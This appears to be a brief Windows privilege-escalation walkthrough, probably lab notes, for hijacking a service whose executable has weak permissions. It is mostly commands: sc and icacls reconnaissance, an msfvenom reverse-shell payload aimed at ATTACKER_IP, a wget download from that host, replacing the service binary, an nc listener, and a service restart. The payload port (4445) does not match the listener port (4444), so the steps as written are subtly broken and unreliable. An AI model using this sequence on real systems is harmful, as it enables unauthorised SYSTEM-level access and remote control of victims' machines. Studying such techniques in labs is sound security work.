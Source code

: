 If the executable associated with a service has weak permissions that allows an attacker to modify or replace it.

**Query the service configuration**
```
sc qc WindowsScheduler
```
Once the executable associated with the service is found, move on to check the permission of that executable.

**Check the Permission of the Executable**
```
icacls C:\PROGRA~2\SYSTEM~1\WService.exe
```

**Create a Payload**
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe
```

**Send it using the Python Webserver**
```
# Attacker
python3 -m http.server

# Victim
wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe
```

**Replace the Service Executable with our Payload**
```
cd C:\PROGRA~2\SYSTEM~1\
move WService.exe WService.exe.bkp
move C:\Users\thm-unpriv\rev-svc.exe WService.exe
icacls WService.exe /grant Everyone:F
```

**Start a reverse listener**
```
nc -nvlp 4444
```

**Restart the Service**
```
sc stop windowsscheduler
sc start windowsscheduler
```